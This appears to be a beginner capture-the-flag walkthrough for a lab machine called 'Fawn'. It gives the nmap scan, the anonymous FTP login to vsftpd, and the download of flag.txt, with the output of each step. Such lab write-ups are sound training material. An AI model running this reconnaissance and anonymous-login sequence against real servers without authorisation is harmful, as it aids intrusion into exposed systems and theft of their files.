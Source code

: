 # FAWN

My instance got created on `10.129.90.59`

> Note that this IP is different for everyone so replace your created instance IP with the IP mentioned by me throughout the walkthrough. 

I started with checking if the host is up by pinging it using: 

`ping 10.129.90.59`

After that a basic nmap scan gave me basic overview of the different open ports on the machine. 

`nmap -sC -sV 10.129.90.59`

The output was somewhat like this:

```
nmap scan report for 10.129.90.59
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
```

The scan gave me a lot of information. Like a FTP (File Transfer Protocol) port is open (21). Its version, in this case - `vsftpd 3.0.3`.  So we can use ftp to gain privilege. Its a good practice to check that your machine has `ftp`.  This can be done by a simple command, `sudo apt install ftp -y`. Now we can connect using, 

`ftp 10.129.90.59` 

The output would be something like,

```
Connected to 10.129.90.59.
220 (vsFTPd 3.0.3)
Name (10.129.90.59:retr0):
```

So we can login using `username - anonymous`(Used over FTP when you want to log in without having an account) and a password of our choosing. The successful login would look like

```
Connected to 10.129.90.59.
220 (vsFTPd 3.0.3)
Name (10.129.90.59:retr0): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

> 230 here is the response code for successful login.

Now a simple, 

`ftp> help`

would give out all possible ftp commands. The output would look like, 

```
Commands may be abbreviated.  Commands are:

!		epsv6		mget		preserve	sendport
$		exit		mkdir		progress	set
account		features	mls		prompt		site
append		fget		mlsd		proxy		size
ascii		form		mlst		put		sndbuf
bell		ftp		mode		pwd		status
binary		gate		modtime		quit		struct
bye		get		more		quote		sunique
case		glob		mput		rate		system
cd		hash		mreget		rcvbuf		tenex
cdup		help		msend		recv		throttle
chmod		idle		newer		reget		trace
close		image		nlist		remopts		type
cr		lcd		nmap		rename		umask
debug		less		ntrans		reset		unset
delete		lpage		open		restart		usage
dir		lpwd		page		rhelp		user
disconnect	ls		passive		rmdir		verbose
edit		macdef		pdir		rstatus		xferbuf
epsv		mdelete		pls		runique		?
epsv4		mdir		pmlsd		send
```

Now to list the files we can use `ls`. We get a output, 

```
29 Entering Extended Passive Mode (|||22472|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Now we can see there is a file `flag.txt`. That can be downloaded to the local machine using, 

`get flag.txt`

The whole output would look like,

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||31667|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32       40.32 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.14 KiB/s)
```

Now we close the ftp server, 

```
ftp> bye
221 Goodbye.
```

Now when we `ls` in our local machine we can see the file `flag.txt`. This can be opened using `cat flag.txt`.


